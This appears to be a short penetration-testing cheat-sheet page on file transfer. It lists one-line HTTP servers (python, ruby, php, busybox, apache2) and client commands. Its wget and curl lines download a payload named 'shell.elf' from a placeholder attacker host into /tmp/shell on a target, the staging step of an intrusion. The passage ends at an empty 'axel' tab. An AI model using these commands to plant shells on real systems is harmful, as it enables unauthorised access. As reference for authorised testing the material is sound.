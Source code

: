 # File Transfer

## wget, curl, axel, certutil

Server

=== "python"

	``` bash
	python3 -m http.server 80
	```

	``` bash
	python -m SimpleHTTPServer 80
	```

=== "ruby"

	``` bash
	ruby -run -e httpd . -p 80
	```

=== "php"

	``` bash
	php -S 0.0.0.0:80
	```
	
=== "busybox"

	``` bash
	busybox httpd -f -p 80
	```

=== "apache2"

	``` bash
	sudo systemctl start apache2
	```

Client

=== "wget"

	``` bash
	wget -O /tmp/shell http://ip/shell.elf
	
	wget <uri> -P /path/to/
	```

=== "curl"

	``` bash
	curl -o /tmp/shell http://ip/shell.elf
	```

=== "axel"
